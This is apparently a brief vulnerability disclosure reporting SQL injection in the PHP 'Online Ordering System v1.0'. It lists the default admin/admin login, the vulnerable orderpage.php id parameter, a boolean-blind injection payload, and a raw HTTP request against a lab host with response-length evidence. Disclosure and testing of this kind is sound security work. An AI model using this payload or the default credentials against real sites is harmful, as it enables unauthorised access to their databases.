 # Online Ordering System v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin

vendors: https://www.sourcecodester.com/php/5125/online-ordering-system-using-phpmysql.html

Vulnerability File: /onlineordering/store/orderpage.php

Vulnerability location: /onlineordering/store/orderpage.php?id=,id

[+] Payload: /onlineordering/store/orderpage.php?id=12%27%20and%20length(database())%20=12--+ // Leak place ---> id

Current database name: shoppingcart,length is 12

```sql
GET /onlineordering/store/orderpage.php?id=12%27%20and%20length(database())%20=12--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=v112m4jpgqqtdo86av7lvbjv3l
Connection: close
```

When length (database (()) = 11, Content-Length: 3541

![image](https://user-images.githubusercontent.com/54017627/167339477-32c0e941-d883-4759-9d91-951fea502d9e.png)

![image](https://user-images.githubusercontent.com/54017627/167339531-5bec577f-f7e4-4a03-8cf5-3e2038538f6d.png)

When length (database (()) = 12, Content-Length: 2529

![image](https://user-images.githubusercontent.com/54017627/167339441-ca008099-e321-4c0f-b764-4c697d6c6737.png)

![image](https://user-images.githubusercontent.com/54017627/167339504-d3b8b511-45d0-46ad-8160-162f27124636.png)
